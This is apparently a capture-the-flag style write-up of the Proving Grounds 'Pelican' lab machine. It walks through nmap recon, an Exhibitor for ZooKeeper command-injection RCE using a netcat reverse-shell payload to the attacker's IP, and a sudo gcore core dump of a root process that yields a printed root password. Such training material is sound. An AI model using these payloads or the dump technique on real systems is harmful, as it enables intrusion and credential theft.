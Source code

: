 ```yaml
---
layout: post
title: Pelican
date: 2024-06-01 12:00:00 +0100
published: true
categories: [PG Practice]
tags: [OSCP, PG Practice]
---
```



## Summary

On port 8081 is running `Exhibitor for ZooKeeper v1.0` which is vulnerable to arbitrary code execution via `java.env script` field under Config tab. Malicious command needs to be placed inside `$()`. I was able to get initial foothold on the system by using reverse shell one liner as payload. Enumerating system as user `charles` I found out that `charles` can run `/usr/bin/gcore` with `sudo`. This binary can be used to generate core dump of process by providing process ID. Searching for processes I ran `pspy64s` and found interesting process `/usr/bin/password-store`, which is running as root. I generated core dump for `/usr/bin/password-store` process using `/usr/bin/gcore`. Inspecting output I found root credentials and I was able to log in as root. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 192.168.246.98
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration

### Service Enumeration

|                |                                         |
| -------------- | --------------------------------------- |
| **IP Address** | **Ports Open**                          |
| 192.168.246.98 | **TCP**: 22, 445, 631, 2222, 8080, 8081 |
#### Port 445

```
smbclient -N -L //192.168.246.98
```

![445](/assets/images/pelican/445.png)

#### Port 631

```
CUPS v2.2.10
```

#### Port 8080

```
Jetty 1.0
```

#### Port 8081

```
nginx 1.14.2
```

![[8081.png]]

```
Exhibitor for ZooKeeper v1.0
```

___
## Initial Foothold

### Exhibitor Web UI - RCE

Source: https://www.exploit-db.com/exploits/48654

`java.env script` field can be modified and the new configuration pushed to `ZooKeeper`. We can execute arbitrary code by placing it inside `$()`. For payload I used simple reverse shell one liner. 

Payload:
```
$(/bin/nc -e /bin/sh 192.168.45.162 4444 &)
```

![[PG Practice/Intermediate/Pelican/Screenshots/exploit.png]]

After committing changes we receive reverse shell on port 4444.

![[PG Practice/Intermediate/Pelican/Screenshots/reverseSHell.png]]

### Local.txt

![[PG Practice/Intermediate/Pelican/Screenshots/localFlag.png]]

_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![[PG Practice/Intermediate/Pelican/Screenshots/sudoL.png]]

Output showed that we can run `/usr/bin/gcore` with `sudo`. Searching this binary on `gtfobins` (https://gtfobins.github.io/gtfobins/gcore/) revealed that it is possible to uses this binary to generate core dump of process by providing process ID. 
#### Pspy64s

Running `pspy64s` revealed interesting process `/usr/bin/password-store`, which is running with root privileges. 

![[PG Practice/Intermediate/Pelican/Screenshots/pspy64s.png]]

### Core dump of /usr/bin/password-store process

```
sudo /usr/bin/gcore -a -o output.txt 494
```

![[escal.png]]

Inspecting output we can find root credentials.

```
cat output.txt
```

![[PG Practice/Intermediate/Pelican/Screenshots/password.png]]

### Root Access

```
root : ClogKingpinInning731
```

![[PG Practice/Intermediate/Pelican/Screenshots/rootLogin.png]]

___
## Post Exploitation

![[PG Practice/Intermediate/Pelican/Screenshots/proofFlag.png]]
